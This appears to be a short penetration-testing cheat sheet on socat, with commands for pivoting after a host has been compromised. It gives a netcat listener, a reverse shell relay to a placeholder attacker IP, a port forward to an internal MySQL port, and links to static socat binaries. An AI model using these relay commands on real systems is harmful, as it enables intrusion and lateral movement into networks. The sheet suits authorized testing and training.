 ### socat  

## Reverse Shell Relay  

After setting up a listener on the attacker machine e.g.  

`nc -lvnp 443`  

A reverse shell relay can be created on the compromised machine to pivot into a previous unreachable network.  

`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`  

## Port Forward  

Compromised server is 172.0.0.5:33060 and the target is 172.16.0.10:3306.

`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

## Static Binaries.  


Static Linux binary.  

https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat  

Static Windows binary.  

https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download

